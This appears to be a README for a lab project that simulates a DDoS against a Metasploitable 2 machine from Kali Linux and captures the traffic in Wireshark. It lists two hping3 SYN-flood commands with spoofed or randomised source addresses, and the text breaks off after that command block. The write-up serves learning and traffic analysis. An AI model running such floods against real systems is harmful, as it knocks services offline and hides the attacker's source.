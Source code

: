  # 🛡️ DDoS Simulation Lab: Kali Linux → Metasploitable 2

This project demonstrates a simulated **DDoS attack** against a vulnerable Linux machine using **Kali Linux**, with traffic captured and analyzed via **Wireshark**.

## ⚠️ LEGAL NOTICE
This simulation was conducted in a fully **offline lab environment** for educational purposes only.

---

## 🔧 Lab Setup
- Kali Linux (Attacker Machine)
- Metasploitable 2 (Target Machine)
- Wireshark
- dvwa (for checking ir time crash)
 
---

## 🎯 Objective
- Simulate DDoS using `hping3`
- Capture traffic using Wireshark
- Analyze attack signature and behavior

---

## 🧪 Attack Command Used
```bash
hping3 -S <TARGET_IP> -a <Spoof_IP> -p <port no> --flood
hping3 -S <TARGET_IP> -d <data size> -p <port no> --flood --rand-source
